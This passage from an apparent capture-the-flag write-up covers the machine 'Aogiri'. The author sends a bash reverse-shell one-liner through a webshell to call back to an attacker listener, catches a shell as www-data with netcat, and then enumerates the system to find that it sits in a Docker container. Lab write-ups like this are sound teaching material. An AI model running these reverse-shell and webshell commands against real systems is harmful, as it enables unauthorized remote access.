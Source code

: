 ### Shell

Running a basic bash rev shell in the webshell gets me a callback:



    root@kali# curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'"





    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.101.
    Ncat: Connection from 10.10.10.101:52930.
    bash: cannot set terminal process group (10): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@Aogiri:/var/www.md$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



## Privesc: root on Aogiri

### Enumeration

Enumeration leads to a couple of interesting observations. I'm in a
docker container. There's a `.dockerenv` file in the system root:



    www-data@Aogiri:/$ ls -a /
    .   .dockerenv  boot  etc   lib    media  opt   root  sbin  sys  usr
    ..  bin         dev   home  lib64  mnt    proc  run   srv   tmp  var



Also, I can see it in [Cgroups](https://en.wikipedia.org/wiki/Cgroups):



    www-data@Aogiri:/$ grep -i docker /proc/self/cgroup
    12:blkio:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    11:cpuset:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    10:pids:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    9:freezer:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    8:net_cls,net_prio:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    7:devices:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    5:memory:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    4:perf_event:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    3:cpu,cpuacct:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    2:hugetlb:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    1:name=systemd:/docker/b40e2207e3f430e346b59d3b45d6b90707c9a12e4171958f3b3b5e97eff6e604
    0::/system.slice/docker.service
